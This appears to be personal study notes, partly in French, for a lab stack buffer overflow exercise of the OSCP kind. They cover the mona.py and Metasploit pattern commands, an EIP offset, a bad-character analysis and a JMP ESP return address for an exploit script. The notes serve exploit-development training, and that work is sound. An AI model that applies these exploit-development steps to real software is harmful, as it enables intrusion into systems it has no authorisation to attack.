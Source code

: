 # MONA

## add to path in immunitydbg

!mona config -set workingfolder c:\mona\%p


## generate pattern and find EIP addr
(Fuzzing crashed at 2000 bytes)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
!mona findmsp -distance 2400

EIP contains normal pattern : 0x6f43396e (offset 1978)

## test des bads char:
(ESP à l'adresse  0199FA30)
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a 0199FA30

on rajoute 00 au bad chars
00 07 08 2e 2f a0 a1 
"\x00\x07\x08\x2e\x2f\xa0\xa1"
mais attention les bytes qui se suivent ne sont probablement pas des badchars, il nous reste donc:
\x00\x07\x2e\xa0


## trouver un jmp esp
!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"

réponse:
625011af

dans exploit.py
retn = "\xaf\x11\x50\x62"


